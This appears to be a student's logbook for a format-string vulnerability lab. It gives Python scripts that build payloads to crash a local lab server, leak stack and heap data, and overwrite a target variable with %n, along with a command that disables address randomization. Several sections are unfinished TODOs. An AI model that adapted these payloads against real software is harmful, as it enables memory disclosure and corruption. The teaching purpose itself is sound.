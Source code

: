 # Log Book 6

## Environment Setup

### Disable adress randomization

`sudo sysctl -w kernel.randomize_va_space=0`

### Server output

This is a sample output of the server.

```
server-10.9.0.5 | Got a connection from 10.9.0.1
server-10.9.0.5 | Starting format
server-10.9.0.5 | The input buffer's address:    0xffffd840
server-10.9.0.5 | The secret message's address:  0x080b4008
server-10.9.0.5 | The target variable's address: 0x080e5068
server-10.9.0.5 | Waiting for user input ......
server-10.9.0.5 | Received 6 bytes.
server-10.9.0.5 | Frame Pointer (inside myprintf):      0xffffd768
server-10.9.0.5 | The target variable's value (before): 0x11223344
server-10.9.0.5 | hello
server-10.9.0.5 | The target variable's value (after):  0x11223344
server-10.9.0.5 | (^_^)(^_^)  Returned properly (^_^)(^_^)
```
## Task 1

For this task we had to construct a simple payload to exploit the format-string
vulnerability in the server. By analyzing the program source code we can see that the 
program reads user input into the buf variable. Then, this data is passde to 
`myprintf()` to print out the data. We were able to crash the server by filling the 
buf variable with multiple *%s*.

```py
#!/usr/bin/python3
import sys

# Initialize the content array
N = 1500
content = bytearray(0x0 for i in range(N))

for i in range(0, N, 2):
  content[i:i+2] = ("%s").encode('latin-1')

# Write the content to badfile
with open('badfile', 'wb') as f:
  f.write(content)
```
## Task 2
### Task 2.A

// TODO: How many %x

The objective of this task is to print out the data on the stack and to print
out the first four bytes of our input. To do this we started by choosing some
unique numbers (4 bytes) so we can immediately tell when they are printed out.
We chose 0xaabbccdd. The rest of the payload is filled with ?? *%x* format specifiers. 

```py
#!/usr/bin/python3
import sys

# Initialize the content array
N = 1500
content = bytearray(0x0 for i in range(N))

number  = 0xaabbccdd
content[0:4]  =  (number).to_bytes(4,byteorder='little')

n = 64
x = "%x"
for i in range(4, 4 + 2 * n, len(x)):
  content[i:i+len(x)] = (x).encode('latin-1')

# Write the content to badfile
with open('badfile', 'wb') as f:
  f.write(content)
```

![task 2A](./LOGBOOK6_img/task_2_A.png)

### Task 2.B

TODO

For this task there was a secret message string stored in the heap area that we had 
to find. For this task, the first four bytes of the payload were filled with
the secret message address that was given. Then, our input is followed by ?? *%x* 
format specifiers which will print out the data on the stack we finish by
adding a *%s* format specifier that will print the secret message string.

The secret message string was: "A secret message"

```py
#!/usr/bin/python3
import sys

# Initialize the content array
N = 1500
content = bytearray(0x0 for i in range(N))

secret_addr  = 0x080b4008
content[0:4]  =  (secret_addr).to_bytes(4,byteorder='little')

# skip to first to input init
n = 64 - 1
x = "%x "
skip_b = 4
for i in range(skip_b, skip_b + len(x) * n, len(x)):
  content[i:i+len(x)] = (x).encode('latin-1')

s_offset = skip_b + len(x) * n
content[s_offset:s_offset+2] = ("%s").encode('latin-1')

# Write the content to badfile
with open('badfile', 'wb') as f:
  f.write(content)
```

![task 2B](./LOGBOOK6_img/task_2_B.png)

## Task 3

### Task 3.A

TODO
In this sub-task we are asked to change the target value to a different value.
To achieve this, we started by setting the first four bytes of our payload as
the first bytes of the target address given to us. Next, we fill the payload with
63 (???) *%x* format specifiers followed by a *%n* which will load a different value
to the variable pointed by the target's reference.

```py
#!/usr/bin/python3
import sys

# Initialize the content array
N = 1500
content = bytearray(0x0 for i in range(N))

target_addr  = 0x080e5068
content[0:4]  =  (target_addr).to_bytes(4,byteorder='little')

# skip to first to input init
n = 64 - 1
x = "%x "
skip_b = 4
for i in range(skip_b, skip_b + len(x) * n, len(x)):
  content[i:i+len(x)] = (x).encode('latin-1')

s_offset = skip_b + len(x) * n
content[s_offset:s_offset+2] = ("%n").encode('latin-1')

# Write the content to badfile
with open('badfile', 'wb') as f:
  f.write(content)
```

![task 3A](./LOGBOOK6_img/task_3_A.png)

### Task 3.B

TODO

This sub-task is similar to the previous one. However, it specifies the final value
of the target variable which is 0x5000. This time our payload starts the same (with 
the target's reference first).

```py
#!/usr/bin/python3
import sys
from math import floor

# Initialize the content array
N = 1500
content = bytearray(0x0 for i in range(N))

target_addr  = 0x080e5068
content[0:4]  =  (target_addr).to_bytes(4,byteorder='little')

# skip to first to input init
n_bytes_to_print = 0x5000
n = 64 - 1
x_size = int(floor(n_bytes_to_print/n))
x = "%0" + str(x_size) + "x"
skip_b = 4
for i in range(skip_b, skip_b + len(x) * n, len(x)):
  content[i:i+len(x)] = (x).encode('latin-1')

# write number of written bytes to var
s_offset = skip_b + len(x) * n
# need to subtract 4 because it will write 4 bytes for the string
remaining = (n_bytes_to_print - (x_size * n)) - 4
n_str = "0"*remaining + "%n"
content[s_offset:s_offset+len(n_str)] = (n_str).encode('latin-1')

# Write the content to badfile
with open('badfile', 'wb') as f:
  f.write(content)
```

![task 3B](./LOGBOOK6_img/task_3_B.png)
